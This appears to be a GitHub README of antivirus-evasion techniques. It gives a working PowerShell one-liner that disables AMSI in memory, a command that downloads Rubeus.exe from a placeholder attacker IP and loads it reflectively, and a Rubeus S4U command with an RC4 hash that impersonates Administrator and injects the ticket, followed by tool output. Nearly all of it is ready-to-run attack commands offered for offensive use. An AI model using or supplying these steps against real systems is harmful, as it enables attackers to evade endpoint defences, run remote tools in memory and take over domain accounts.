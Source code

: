 # AV-Bypass-Techniques
Various AV bypass techniques.

## PowerShell AV Bypass Techniques

### Load .exe in Memory

Once we have compiled a program, say Rubeus, we can load it and execute it from memory. The below steps detail this technique:

  1. Bypass AMSI:
     ```
     PS > $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
     ```
  2. Download binary and store it into a variable:
     ```
     PS > $data = (New-Object System.Net.WebClient).DownloadData('http://<IP ADDRESS>/Rubeus.exe')
     ```
  3. Load the binary as an assembly:
     ```
     PS > $assem = [System.Reflection.Assembly]::Load($data)
     ```
To interact with the assembly, we take advantage of the fact that the *Main* method is public and we can invoke all of its funcionality by specifying the function name.

```
PS > [Rubeus.Program]::Main("s4u /user:sunflower$ /rc4:9C7E20D38DF38F2A09212D159872E809 /impersonateuser:Administrator /msdsspn:cifs/sql02.evil.corp /ptt".Split())

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Using rc4_hmac hash: 9C7E20D38DF38F2A09212D159872E809
[*] Building AS-REQ (w/ preauth) for: 'evil.corp\sql02$'
[*] Using domain controller: 10.10.10.5:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIEpjCCBKKgAwIBBaEDAgEWooIDyTCCA8VhggPBMIIDvaADAgEFoQobCEVWSUwuQ09Noh0wG6ADAgEC
<SNIP>
```
